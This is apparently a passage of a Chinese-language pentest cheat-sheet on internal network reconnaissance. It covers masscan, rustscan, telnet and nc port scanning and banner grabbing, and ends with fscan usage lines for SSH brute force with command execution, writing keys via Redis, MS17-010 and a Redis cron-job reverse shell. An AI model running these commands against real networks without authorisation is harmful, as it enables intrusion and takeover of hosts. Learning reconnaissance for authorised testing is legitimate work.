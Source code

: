 ```
git clone https://github.com/robertdavidgraham/masscan make -j
# 扫描B段80/443端⼝
./masscan 10.0.0.0/8 -p80,443 rate 100000
```
### rustscan
```
# 安装
docker pull rustscan/rustscan
# 扫描并⾃动调⽤Nmap
rustscan -a 192.168.1.0/24  -A -sC
```
## 扫描域内端⼝
端⼝的banner信息 ，端⼝上运⾏的服务，常⻅应⽤的默认端⼝
### 利⽤telnet命令进⾏扫描
Telnet 协议是tcp/ip协议族的⼀员，是Internet远程登陆服务的标准协议和主要形式。
1.⾸先得开启服务
```
telnet 192.168.1.1 22

REM 批量扫描IP段（需提前启⽤Telnet客户端）
for /l %i in (1,1,254) do @telnet 192.168.1.%i 80 > nul  echo 192.168.1.%i:80 open
```
### 端⼝banner信息
如果通过扫描发现了端⼝，可以使⽤客户端连接⼯具或者nc，获取服务端的Banner信息。获 取 Banner 信 息 后 ， 可 以 在 漏 洞 库 中 查 找 对 应 cve 编 号 的 Poc 、 exp 、 在 exploitDB 、seebug等平台上查看相关的漏洞利⽤⼯具，然后到⽬标系统中验证漏洞是否存在，从⽽有针对性地进⾏安全加固。
```
nc -nv 127.0.0.1 22

⽂件共享服务端⼝（21、22、69、2049、139、389）
远程连接服务端⼝（22、23、3389、5900、5632）
Web应⽤服务端⼝（80、443、8080、7001、7002、8089、9090、4848、1352）
数据库服务端⼝（3306、1433、1521、5432、6379、5000、9200）
邮件服务端⼝（25、110、143）
⽹络常⻅协议端⼝（53、67、68、161）
```
## ⾃动化信息收集
### fscan
下载：
```
https://github.com/shadow1ng/fscan
```
使用：
```
fscan -h ip/24 -p port -o .txtc

./fscan -h 192.168.101.1/24                                                启动fscan并扫描⽹段
./fscan.exe -h 192.168.x.x                                                     默认使⽤全部模块
./fscan.exe -h 192.168.x.x -rf id_rsa.pub                           redis 写私钥
./fscan.exe -h 192.168.x.x -c whoami                                 ssh爆破成功后，命令执⾏
./fscan.exe -h 192.168.x.x -m ms17010                              指定模块
./fscan.exe -h 192.168.x.x -m ssh -p 2222                         指定模块ssh和端⼝
./fscan.exe -h 192.168.x.x -h 192.168.1.1/24                     C段
./fscan.exe -h 192.168.x.x -h 192.168.1.1/16                     B段
./fscan.exe -h 192.168.x.x -h 192.168.1.1/8                       A段的192.x.x.1和192.x.x.254,⽅便快速查看⽹段信息
./fscan.exe -h 192.168.x.x -hf ip.txt                                    以⽂件导⼊
./fscan -h 192.168.1.1/24 -np -no -nopoc                         (跳过存活检测 、不保存⽂件、跳过web poc扫描)
./fscan -h 192.168.1.1/24 -rf id_rsa.pub                            (redis 写公钥)
./fscan -h 192.168.1.1/24 -rs 192.168.1.16666                  (redis 计划任务反弹shell)
./fscan -h 192.168.1.1/24 -c whoami                                 (ssh 爆破成功后，命令执⾏)
```